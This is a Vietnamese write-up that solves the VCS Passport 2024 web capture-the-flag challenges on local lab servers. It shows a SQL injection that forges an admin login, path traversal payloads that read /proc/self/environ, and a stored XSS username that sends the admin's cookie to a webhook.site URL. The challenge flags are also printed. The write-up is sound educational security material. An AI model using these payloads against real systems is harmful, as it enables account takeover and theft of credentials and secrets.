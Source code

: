 ```yaml
---
title: "Writeup VCS Passpost 2024 [WEB]"
date: "2025-01-16"
excerpt: "Challenges: https://github.com/DuongHaoNika/VCS_Passport_2024_Web"
featured: "/images/viettel.jpg"
---
```


<!-- Source các challenge: https://github.com/DuongHaoNika/VCS_Passport_2024_Web -->

## Bài Web01-Flag1
Khi bấm vào link, mình thấy giao diện như sau:

![image](https://github.com/user-attachments/assets/6ff658e5-6eac-4c76-855e-a0f068b128aa)

Sau đó đọc source code thấy route /freeflag:

![image](https://github.com/user-attachments/assets/b1c152e8-ca35-4e35-af80-ddd8404476d7)

![image](https://github.com/user-attachments/assets/21719077-75c5-4f36-aa35-b99374801a54)

Sau đó thấy server trả về session như hình

![image](https://github.com/user-attachments/assets/54be6e44-c4b9-4334-b265-d18b783cbabd)

=> Có thể là jwt. Vào trang jwt.io check:

![image](https://github.com/user-attachments/assets/ddbb660a-9456-4f87-b68e-e2ca367d1aa0)

=> Flag: `VCS{Web01-Flag1-680c37cc-6147-4d08-8c11
29c91b2a50bf}`

## Bài Web01-Flag2

Sau khi đọc source code, thấy chỉ lấy được Flag02 trong trường hợp login với admin

![image](https://github.com/user-attachments/assets/818e8fed-f673-4ef0-abf5-32345153c4e0)

Trước tiên thì tìm hiểu xem cơ chế mà server xử lý login như nào

![image](https://github.com/user-attachments/assets/bee9d8e7-cfa2-4f65-83a0-729392068f35)

![image](https://github.com/user-attachments/assets/81ca0b0b-bd16-4541-afec-accf6709a5fd)

Hàm `execute` đã trực tiếp nối input của người dùng (username) vào trực tiếp câu lệnh SQL => SQLInjection
Server kiểm tra trước xem có tồn tại username không, nếu có thì lấy password đã
được hash md5 (lưu trữ) trong database, và lấy password người dùng nhập, hash md5
password đó => Kiểm tra xem 2 hash trùng nhau không => Trùng thì đăng nhập thành
công.

Hoàn toàn có thể tận dụng lỗi SQL Injection trên, union select 1 tài khoản admin
và 1 mật khẩu đã được mã hóa md5

![image](https://github.com/user-attachments/assets/a2ae19fc-82ce-494e-b830-1d75aecc975f)

Đọc source => Sử dụng SQLite3
 
Sau đó vào Burp Suite, chỉnh giá trị username như sau:

```abc") UNION SELECT 'admin', '202cb962ac59075b964b07152d234b70'-```

Password cung cấp: `123`

Ở đây để phần đầu username là abc, để server không tìm thấy user có username là
abc thì user phía sau được lấy => Fake được user admin

![image](https://github.com/user-attachments/assets/8cb57872-1fec-486e-a0d1-83f3be96e85c)

![image](https://github.com/user-attachments/assets/ef41237b-cb00-4c8c-afc1-ff9bd11555ba)

## Bài Web01-Flag3

Đọc file `start.sh`:

![image](https://github.com/user-attachments/assets/46e53fbb-de7c-4790-8ba2-009809fe2cab)

Thấy `$FLAG3` chưa unset => vẫn nằm trên environ của tiến trình. 

Khi đọc src thì mình nhận ra field `title` không hề được validate:

![image](https://github.com/user-attachments/assets/8e545b71-1856-46f5-a82a-a402e49906b6)

![image](https://github.com/user-attachments/assets/203c4e08-1a96-4575-8939-eca0baa1feff)

Ý tưởng là mình sẽ inject vào field `title` để thực hiện Path Traversal, đọc file `/proc/self/environ` hoặc `/proc/1/environ`

Đầu tiên mình tạo request với CURL:

```
curl.exe -X POST http://localhost:9001/upload-meme -F "meme=@dockerfile" -F "title=title" -x 127.0.0.1:8080 -v
```

Qua Burp Suite

![image](https://github.com/user-attachments/assets/38bc81eb-70b0-439d-96e0-33f95c8f643d)

![image](https://github.com/user-attachments/assets/45623108-09a2-4dd9-a0ec-c348ae27e682)

Sửa `title` => `aaaaaaaa", "../../../../../../../proc/self/environ") --`

![image](https://github.com/user-attachments/assets/e564fe87-8482-48f5-a650-c484860ad4c4)

## Bài Web04

![image](https://github.com/user-attachments/assets/3227a8a9-8a2e-4d30-9dca-61518c18e4a3)

Đây là code python, trong index có hàm render_template() không bị SSTI (render_template_string thì bị) 

Mình để ý đến `/feedback`

![image](https://github.com/user-attachments/assets/222453fd-2a1f-44ab-8f07-87264dafe107)

`subject` được đưa vào nối chuỗi => Có thể bị Path Traversal

Sau khi xem và tìm hiểu thì hàm unidecode() có thể chuyển `\`, `\\` về `/` => bypass được '/'

Xem docker và check được user có thể ghi vào folder `errors`

![image](https://github.com/user-attachments/assets/7f9c036e-8a96-466f-a311-be5a62aeb26d)

Ý tưởng là mình sẽ Path Traversal qua field `subject` và thực hiện lệnh gì đó qua field `content`

![image](https://github.com/user-attachments/assets/c37ebc67-3173-4d4d-b015-b9456bc0aaf5)

Lấy được flag trong config (`app.config['FLAG'] = os.environ['FLAG']`)

![image](https://github.com/user-attachments/assets/32689981-3073-4d73-86ce-894a6fa7a19f)

## Bài Web06

![image](https://github.com/user-attachments/assets/7ed53f13-bee9-4c5f-a6cd-5dfa0a469572)

Khi đọc source mình để ý 2 hàm dưới

![image](https://github.com/user-attachments/assets/c438988e-213f-466a-8fad-8e184f7262ee)

Check tiếp hàm register

![image](https://github.com/user-attachments/assets/0b141994-a8e7-4603-9db5-b3e7b5da7581)

 Nhận thấy `email` và `bio` đã bị filter XSS. Còn username được lấy từ
 `session[“username”]`. Mà `username` trong hàm register lấy trực tiếp từ người dùng
 => `username` là **untrusted data**
 
 Hàm report profile => khả năng được gửi lên để admin xem
 => sẽ ra sao nếu report 1 nick có username với payload xss để cướp cookie admin
 khi xem
Đầu tiên tạo 1 user có username:
 
```
<script>fetch(`https://webhook.site/d15deb00-b0fb-43ad-a288480ba00c2c37?cookie=${document.cookie}`)</script>
```

![image](https://github.com/user-attachments/assets/0bc89596-9dae-487e-8117-3093ac458c2d)

 Sau đó tạo user khác, mục đích để lấy nick này report nick trên

![image](https://github.com/user-attachments/assets/2f4beadc-27a7-4a6e-9aa8-f6f3bd68e262)

Ví dụ: http://localhost:9006/profile/3ab3a9de-3571-48a4-bb01-257486e69f3a

![image](https://github.com/user-attachments/assets/1a474131-6ce2-4fb1-aa96-a42e1acc66ed)

Check webhook

![image](https://github.com/user-attachments/assets/f02f255e-d72a-4c14-846f-fab4d0193d3f)

Flag: `VCS{web06-2f29cec6-b8ea-4126-a2cd-a213bb332150}`

